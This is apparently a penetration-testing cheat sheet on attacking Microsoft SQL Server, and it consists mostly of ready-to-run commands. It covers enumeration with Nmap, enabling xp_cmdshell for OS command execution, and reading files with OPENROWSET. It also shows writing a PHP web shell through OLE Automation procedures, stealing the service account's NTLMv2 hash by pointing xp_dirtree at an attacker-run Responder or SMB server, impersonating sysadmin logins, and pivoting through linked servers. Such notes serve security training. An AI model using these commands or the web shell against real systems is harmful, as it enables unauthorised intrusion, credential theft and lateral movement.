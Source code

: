 # MSSQL

## **Introduction**

> Microsoft SQL (MSSQL) is Microsoft's SQL-based relational database management system\
> The default MSSQL port is 1433 TCP

***

## **MSSQL Enumeration & Connection to the Server**

* Enumeration with Nmap NSE:\
  `sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 10.129.201.248`
* Log in to the MSSQL server using Windows authentication:\
  `mssqlclient.py <user>@<FQDN/IP> -windows-auth`
  `python3 /usr/local/bin/mssqlclient.py <user>@<IP> -windows-auth`
* Connect to the MSSQL Server using sqlcmd:\
  `sqlcmd -S SRVMSSQL -U validuser -P validpassword -y 30 -Y 30`
* Connect to the MSSQL Server using sqsh:\
  `sqsh -S 10.129.203.7 -U validuser -P validpassword -h`
* Connect using local windows account:\
  `sqsh -S 10.129.203.7 -U .\\validuser -P validpassword -h`

***

## **Interacting with a MSSQL Server**

| Command                                                  | Description                        |
| -------------------------------------------------------- | ---------------------------------- |
| SELECT name FROM master.dbo.sysdatabases                 | Show databases                     |
| USE users                                                | Use a database                     |
| SELECT table\_name FROM users.INFORMATION\_SCHEMA.TABLES | Show tables from users database    |
| SELECT \* FROM users                                     | Select all Data from Table "users" |

***

## **MSSQL Command Execution**

> MSSQL can allow command execution through the xp\_cmdshell command: `xp_cmdshell 'whoami'`\
> The commands will be executed using the mssql's service account privileges.

**Enabling xp\_cmdshell:**\
If xp\_cmdshell is disabled, you might be able to enable it using the following commands:

```
EXECUTE sp_configure 'show advanced options', 1
RECONFIGURE
EXECUTE sp_configure 'xp_cmdshell', 1
RECONFIGURE
```

***

## **MSSQL File Read**

We can read any file to which the account has read access using the following query:

`SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents`

***

## **MSSQL File Write**

> * To write files using MSSQL, we need to enable Ole Automation Procedures, which requires admin privileges
> * After that, we need to execute some stored procedures to create the file:

1.  **Enable Ole Automation Procedures:**

    ```
    sp_configure 'show advanced options', 1
    RECONFIGURE
    sp_configure 'Ole Automation Procedures', 1
    RECONFIGURE
    ```
2.  **Create a File:**

    ```
    DECLARE @OLE INT
    DECLARE @FileID INT
    EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
    EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\path\to\your\webshell.php', 8, 1
    EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
    EXECUTE sp_OADestroy @FileID
    EXECUTE sp_OADestroy @OLE
    ```

***

## **Capture MSSQL Service Hash**

> * It's possible to capture the MSSQL Service user's account hash using a fake SMB Server or Responder
> * When using the MSSQL `xp_subdirs` or `xp_dirtree` stored procedures pointing to our fake SMB Server, the MSSQL Service will be forced to authenticate using his NTLMv2 hash

**Follow these steps:**

1. Start Responder or start SMB fake server:\
   `sudo responder -I tun0` or `sudo impacket-smbserver share ./ -smb2support`
2. Hash stealing through xp\_dirtree: `EXEC master..xp_dirtree '\\10.10.110.17\share\'`
3. Hash stealing through xp\_subdirs: `EXEC master..xp_subdirs '\\10.10.110.17\share\'`

***

## **MSSQL - Impersonate Existing Users**

> SQL Server has a special permission, named IMPERSONATE, that allows the executing user to take on the permissions of another user or login until the context is reset or the session ends

**To impersonate a user:**

1.  Verify if current account is a sysadmin (By default, sysadmins can impersonate any user)

    ```
    SELECT SYSTEM_USER
    SELECT IS_SRVROLEMEMBER('sysadmin')
    ```
2.  Identify the users that we can impersonate:

    ```
    SELECT distinct b.name
    FROM sys.server_permissions a
    INNER JOIN sys.server_principals b
    ON a.grantor_principal_id = b.principal_id
    WHERE a.permission_name = 'IMPERSONATE'
    ```
3.  Impersonate a user (example: sa)

    ```
    EXECUTE AS LOGIN = 'sa'
    ```

***

## **Communicating with Other Databases \[Linked Servers]**

> * MSSQL has a configuration option called linked servers
> * If we manage to gain access to a SQL Server with a linked server configured, we may be able to move laterally to that database server.
> * Administrators can configure a linked server using credentials from the remote server.
> * If those credentials have sysadmin privileges, we may be able to execute commands in the remote SQL instance.

**Follow these steps:**

1. Identify Linked Servers in MSSQL:\
   `SELECT srvname, isremote FROM sysservers`
2. Identify the user for the connection and its privileges:\
   `EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.10.10.100\SQLSERVERNAME]`

